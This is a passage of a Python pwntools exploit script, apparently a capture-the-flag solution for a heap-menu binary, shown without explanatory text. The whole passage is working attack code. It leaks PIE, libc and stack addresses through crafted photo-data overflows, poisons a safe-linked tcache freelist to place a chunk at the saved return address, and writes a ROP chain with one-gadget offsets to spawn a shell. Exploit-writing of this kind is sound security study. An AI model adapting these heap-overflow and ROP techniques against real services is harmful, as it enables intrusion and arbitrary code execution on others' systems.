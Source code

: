 ```python
add(2, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x958//8))

p.recvuntil(p64(0x1337133713371337)*(0x958//8))
e.address = u64(p.recv(6)+b'\0\0') - 0x7c80
log.info("pie: " + hex(e.address))

remove(4)
add(4, b'@'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x14e50) + p64(heap+0x14e70)*2+p64(0x31)+p64(e.got.printf)+p64(0x8)+p64(0))

show()

p.recvuntil(b'@'*0x10)
p.recvuntil(b'(topic list)\n')

libc.address = u64(p.recv(8)) - libc.sym.printf
log.info("libc @ " + hex(libc.address))

p.sendline(b"1")

remove(5)

addr = heap+0x14eb8

pl = p64(libc.address+0xebcf5)*3
pl = pl.ljust(0x920)

add(5, b'#'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x157e0) + p64(heap+0x157e0+0x20)*2+p64(0x31)+p64(libc.sym.environ)+p64(0x8)+p64(0))

show()
p.recvuntil(b'(################ logo)\n')
p.recvuntil(b'(topic list)\n')
stack = u64(p.recv(8))
log.info("stack : " + hex(stack))

p.sendline(b'1')
remove(6)

return_addr = stack - 0x1d0
target_chunk = heap + 0x16380

_ = b'\0'*0x20+p64(next(libc.search(b'/bin/sh'))) + \
    b'\0'*0x100 + p64(heap+0x15a48)
_ = _.ljust(0x918, b'\0')

add(6, b'#'*0x10, 0, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=_ + p64(0) + p64(0x31) + p64((heap+0x16350) >> 12) + p64(0)*4+p64(0x91) + p64((target_chunk >> 12) ^ (return_addr - 0x28)))

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

add(7, b'7'*0x10, 1, [b'A'*0x80])

rop = p64(heap+0x15a48+0x50)*5 + p64(libc.address+0x000000000002be51) + p64(0) + \
    p64(libc.address+0x0000000000149ac9) + p64(libc.address+0xebcf8)
rop = rop.ljust(0x50, b'A')
add(8, b'8'*0x10, 1, [rop], exploit=True)
```